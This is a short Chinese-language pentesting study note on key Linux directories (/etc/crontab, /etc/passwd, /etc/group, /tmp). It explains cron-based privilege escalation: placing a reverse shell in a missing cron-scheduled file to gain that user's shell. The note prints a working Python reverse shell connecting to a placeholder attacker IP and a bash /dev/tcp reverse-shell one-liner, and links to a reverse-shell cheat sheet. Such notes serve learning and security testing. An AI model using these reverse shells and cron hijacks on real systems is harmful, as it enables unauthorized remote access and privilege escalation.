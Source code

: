 # 重要目录

1. `bin/sh`：运行这个文件，得到一个命令行
2. `/etc/crontab`：系统定期执行的任务，不同用户有各自定时任务（root权限编辑）
    
    <aside>
    💡 编写反弹Shell，netcat监听获取对应用户权限
    
    </aside>
    
    1. 如果crontab设定的定时计划文件，在真实目录中不存在，则可以创建该文件，编辑反弹Shell代码，让主机自动定时执行，攻击机netcat监听端口，获得原定时任务对应用户身份的Shell
        
        ```python
        ——反弹Shell书写方式——
        # (书写环境变量)
        #!/usr/bin/python
        import os, subprocess, socket
        # (创建套接字，并使其连接攻击机监听的端口)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("attacker_ip", "attacket_listening_port"))
        # (将套接字传回的文件，文件描述符添加上0，1，2，服从标准输入输出与报错)
        # (Linux文件描述符：0为stdin，1为stdout，2为stderr)
        os.dup2(s.fileno(), 0)
        os.dup2(s.fileno(), 1)
        os.dup2(s.fileno(), 2)
        # (使用子进程调用交互模式的Shell，即执行成功返回结果，失败返回错误)
        p = subprocess.call(["/bin/sh", "-i"])
        ```
        
        其他语言可参考：[Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
        
        ```bash
        bash -c 'exec bash -i >& /dev/tcp/[local_ip]/[port] 0>&1'
        ```
        
    2. 如果crontab设定的定时执行文件存在，切换到对应目录，查看当前用户是否具有读写权限
3. `/etc/passwd`：用户列表
4. `/etc/group`：所有用户组
5. `/tmp`：残留缓存文件